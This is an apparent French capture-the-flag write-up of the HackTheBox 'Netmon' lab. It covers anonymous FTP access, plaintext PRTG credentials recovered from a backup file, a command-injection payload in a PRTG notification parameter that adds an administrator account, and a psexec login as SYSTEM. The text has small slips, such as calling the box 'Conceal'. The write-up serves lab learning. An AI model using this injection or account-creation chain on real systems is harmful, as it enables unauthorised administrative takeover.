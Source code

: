 ```yaml
---
title: "HackTheBox - Netmon"
description: "fileoutput.jpg"
tags: ["Dans cet article je vous présente comment être administrateur dans la boîte Netmon, c'était une boîte très amusante mais en même temps très facile. Le FTP n'était pas chroot dans le système ce qui nous permettait de lire des fichiers plus ou moins sensible, il y'avait un service PRTG Network Monitor qui tournait ce qui nous permettait d'être administrateur dans le système"]
---
```


![Flower](../fileoutput.jpg)

Informations
----
    Ip :  10.10.10.152      Created by : mrb3n
    Level : Easy    Base Points : 20
    
Résumé : <br />

Le système Conceal, disponible sur la platform [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. La boîte était relativement simple. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système. <br />

- Le protocole `FTP` est ouvert, et il était possible de se connecter en `anonymous`.
- Le service FTP n'est pas `chroot` ce qui nous permettait de lire des fichiers dans le système.
- Il y'a le service `PRTG Network Monitor` d'ouvert dans le système et il y'avait un fichier `backup` assez sensible pour la récupération du mot de passe de la session.
- Nous pouvons exécuter des commandes grâce au système `PRTG Network Monitor` et ensuite faire notre reverse shell pour être administrateur.

Nmap
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-06-29 17:21 CEST
    Nmap scan report for 10.10.10.152
    Host is up (0.040s latency).
    PORT    STATE SERVICE      VERSION
    21/tcp  open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 02-03-19  12:18AM                 1024 .rnd
    | 02-25-19  10:15PM       <DIR>          inetpub
    | 07-16-16  09:18AM       <DIR>          PerfLogs
    | 02-25-19  10:56PM       <DIR>          Program Files
    | 02-03-19  12:28AM       <DIR>          Program Files (x86)
    | 02-03-19  08:08AM       <DIR>          Users
    |_06-29-19  11:07AM       <DIR>          Windows
    80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
    | http-title: Welcome | PRTG Network Monitor (NETMON)
    |_Requested resource was /index.htm
    139/tcp open  netbios-ssn  Microsoft Windows 98 netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds
    Service Info: OSs: Windows, Windows 98, Windows Server 2008 R2; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2008:r2

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds

Il y'a différent services d'ouvert notamment le service `FTP` ou nous avons les permissions pour se connecter en tant que `anonymous`.

FTP
----
    root@Seyptoo:~/htb/box/Netmon# ftp 10.10.10.152
    Connected to 10.10.10.152.
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:18AM                 1024 .rnd
    02-25-19  10:15PM       <DIR>          inetpub
    07-16-16  09:18AM       <DIR>          PerfLogs
    02-25-19  10:56PM       <DIR>          Program Files
    02-03-19  12:28AM       <DIR>          Program Files (x86)
    02-03-19  08:08AM       <DIR>          Users
    06-29-19  11:07AM       <DIR>          Windows
    226 Transfer complete.
    ftp> cd Users
    250 CWD command successful.
    ftp> cd Public
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  08:05AM       <DIR>          Documents
    07-16-16  09:18AM       <DIR>          Downloads
    02-03-19  12:35AM                   33 user.txt
    07-16-16  09:18AM       <DIR>          Videos
    226 Transfer complete.
    ftp> mget user.txt
    mget user.txt? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.03 secs (0.9522 kB/s)
    ftp> exit
    root@Seyptoo:~/htb/box/Netmon# wc -c user.txt 
    33 user.txt

Le fichier `user.txt` est disponible et nous pouvons le transférer vers notre machine physique.

PRTG ADMIN
----

D'après le scan et également d'après mes recherches le service tourne dans le dossier `ProgramData`.

    ftp> cd ProgramData
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:15AM       <DIR>          Licenses
    11-20-16  10:36PM       <DIR>          Microsoft
    02-03-19  12:18AM       <DIR>          Paessler
    02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
    07-16-16  09:18AM       <DIR>          SoftwareDistribution
    02-03-19  12:15AM       <DIR>          TEMP
    11-20-16  10:19PM       <DIR>          USOPrivate
    11-20-16  10:19PM       <DIR>          USOShared
    02-25-19  10:56PM       <DIR>          VMware
    226 Transfer complete.
    ftp> cd Paessler
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    06-29-19  11:11AM       <DIR>          PRTG Network Monitor
    226 Transfer complete.
    ftp> cd "PRTG Network Monitor"
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
    06-29-19  10:29AM       <DIR>          Log Database
    02-03-19  12:18AM       <DIR>          Logs (Debug)
    02-03-19  12:18AM       <DIR>          Logs (Sensors)
    02-03-19  12:18AM       <DIR>          Logs (System)
    06-29-19  10:29AM       <DIR>          Logs (Web Server)
    06-29-19  10:34AM       <DIR>          Monitoring Database
    02-25-19  10:54PM              1189697 PRTG Configuration.dat
    06-29-19  10:58AM              1292772 PRTG Configuration.old
    07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
    06-29-19  11:11AM              1548431 PRTG Graph Data Cache.dat
    02-25-19  11:00PM       <DIR>          Report PDFs
    02-03-19  12:18AM       <DIR>          System Information Database
    02-03-19  12:40AM       <DIR>          Ticket Database
    02-03-19  12:18AM       <DIR>          ToDo Database
    226 Transfer complete.

Nous avons des fichiers plutôt interéssant notamment le fichier `backup PRTG Configuration.old.bak`, nous allons transférer ce fichier vers notre machique physique pour énumérer ce fichier. Quand nous défilons un peu, on peut constater des informations d'identification dans le système `PRTG Network Monitor`.

    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>

Donc si vous tentez d'accéder au service, logiquement vous aurez pas accès car le mot de passe correspond celui là de 2018, et comme nous avons changer de génération c'est 2019. (J'ai mis pas mal de temps à comprendre).

HTTP
----
Donc nous avons les informations d'identification nous pouvons nous connecter dans le service en question et d'éxecuter des commandes.

> Username : prtgadmin <br />
> Password : PrTg@dmin2019

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823414-1551726438018.png)

Une fois connecté au service nous allons allez dans `Setup` et ensuite notifications. Créé une nouvelle notification et ensuite d'aller dans `Execute Program` pour justement exécuter des commandes. Je vais créé un utilisateur qui serais dans le groupe `administrators`.

`test.txt;net user seyptoo 123 /add;net localgroup administrators seyptoo /add`

Vous devez mettre les informations dans la section `Parameter` et de mettre les informations pour créé notre utilisateur comme administrateur.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561826366-1551726674533.png)

Vous enregistrez la notification et ensuite vous cliquez sur la petite cloche et normalement votre commande a été exécuter avec succès. Vous devriez un peu patienter pour que la commande sois exécuter avec certitude.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823969-1551726729729.png)

PrivEsc
----

Une fois toute les modifications ont été effectué vous vous connectez avec `psexec.py` dans le système pour être administrateur. Vous pouvez également utilisé `smbclient`.

    root@Seyptoo:~/htb/box/Netmon# 'seyptoo:123@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, une boîte relativement simple.
